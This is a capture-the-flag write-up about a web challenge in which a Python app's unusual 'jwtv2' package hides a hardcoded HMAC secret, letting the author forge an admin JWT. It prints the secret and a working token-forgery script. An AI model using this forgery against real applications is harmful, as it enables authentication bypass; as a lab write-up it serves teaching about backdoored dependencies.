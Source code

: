 # Dependency Confusion JWT Attack Write-up

## Challenge Overview

![](<img/0.png>)

The challenge provided a website along with its source code. When accessed, the website showed a "not found" error.

## Source Code Analysis

### Available Endpoints

![](<img/1.png>)

Examining the source code revealed 3 endpoints:
- `/api/register` - POST method only
- `/api/login` - POST method only  
- `/api/admin` - GET method only

### Initial Testing

![](<img/2.png>)

Using Burp Repeater, I performed registration at `/api/register` with JSON format containing username and password.

![](<img/3.png>)

When accessing `/api/login` with the registered credentials, a token was returned. According to the source code, the token is encoded using JWT with a default value of `is_admin: false`.

### Target Identification

![](<img/4.png>)

The `/api/admin` endpoint source code indicated that if `is_admin` is false, the flag won't be returned. Therefore, the exploit objective was to change `is_admin: false` to `is_admin: true`.

## Vulnerability Discovery

### Missing JWT Secret

The JWT secret for this website was not found in the conventional places. However, there was something unusual in the `requirements.txt` file.

### Dependency Analysis

![](<img/5.png>)

The `requirements.txt` file contained the imported libraries for the source code. Among them was `jwtv2`, which is not a common library used for JWT encoding processes.

### Library Investigation

![](<img/6.png>)

Investigating this library on pypi.org revealed its source code. From the source code, I discovered that the token encoding process uses the HMAC algorithm. If the signature doesn't match the provided secret or doesn't match `"admin_only_for_testing_1337"`, it returns an invalid signature error.

## Exploitation

### JWT Token Forgery

Understanding the algorithm used in the jwtv2 library and the secret used within it, I was able to recreate a JWT token with `is_admin: true`.

```python
import json, base64, hmac, hashlib, time

def b64u(b): return base64.urlsafe_b64encode(b).rstrip(b'=')

header  = {"alg":"HS256","typ":"JWT"}
payload = {
    "username": "wongsangar",
    "is_admin": True,
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600
}

secret = b"admin_only_for_testing_1337"  # secret from jwtv2

signing_input = b'.'.join([
    b64u(json.dumps(header, separators=(',',':')).encode()),
    b64u(json.dumps(payload, separators=(',',':')).encode()),
])

sig = hmac.new(secret, signing_input, hashlib.sha256).digest()
token = b'.'.join([signing_input, b64u(sig)]).decode()
print(token)
```

### Flag Retrieval

![](<img/7.png>)

After obtaining the forged token, I accessed `/api/admin` using this token, and the flag was successfully retrieved.

## Flag

```
HIB25{s1imple_d3pedency_c0nfusion}
```

## Summary

This challenge demonstrated:

1. **Dependency Analysis** - Identifying unusual libraries in requirements.txt
2. **Third-party Library Investigation** - Researching non-standard libraries on PyPI
3. **Source Code Review** - Analyzing library source code to find hardcoded secrets
4. **JWT Token Forgery** - Creating valid tokens using discovered secrets
5. **Dependency Confusion Attack** - Exploiting trust in third-party packages

The vulnerability stemmed from using a non-standard JWT library (`jwtv2`) that contained a hardcoded secret (`admin_only_for_testing_1337`) in its source code. This represents a classic dependency confusion attack where malicious or poorly designed packages can compromise application security through hardcoded credentials or backdoors.